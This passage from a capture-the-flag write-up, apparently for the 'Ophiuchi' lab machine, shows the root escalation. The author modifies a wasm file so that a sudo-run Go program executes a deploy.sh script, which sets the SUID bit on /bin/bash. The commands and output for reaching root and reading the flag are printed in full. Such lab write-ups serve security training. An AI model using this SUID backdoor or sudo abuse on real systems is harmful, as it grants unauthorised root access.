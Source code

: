 Using the [corresponding](https://webassembly.github.io/wabt/demo/wat2wasm/index.html) tool to generate wasm from wat, we can change the value to `1` and download the generated wasm file.

[![change_int.png](/img/ophiuchi/change_int.png)](/img/ophiuchi/change_int.png)

We scp this file over to a directory we have write access to.

```php
$ scp www/main.wasm admin@10.129.167.24:/dev/shm/main.wasm
admin@10.129.167.24's password: 
main.wasm
```

In this directory we also create a `deploy.sh` script, which is the code we want to run as  root. In this case we simply give bash the suid bit	 as a simple method to obtain root.

`deploy.sh`

```bash
#!/bin/bash
chmod +s /bin/bash
```

With all preparations met we can now do a `go run` with sudo on `/opt/wasm-functions/index.go`
 
```php
admin@ophiuchi:/dev/shm$ sudo /usr/bin/go run /opt/wasm-functions/index.go
Ready to deploy

```

Checking bash, we see it has now the suid bit set.

```php
admin@ophiuchi:/dev/shm$ ls -la /bin/bash
-rwsr-sr-x 1 root root 1183448 Feb 25  2020 /bin/bash
```

This gives us easy access as the root user and we can add the rootflag to our collection.

```php
admin@ophiuchi:/dev/shm$ /bin/bash -p
bash-5.0# id
uid=1000(admin) gid=1000(admin) euid=0(root) egid=0(root) groups=0(root),1000(admin)
bash-5.0# wc -c /root/root.txt
33 /root/root.txt
```
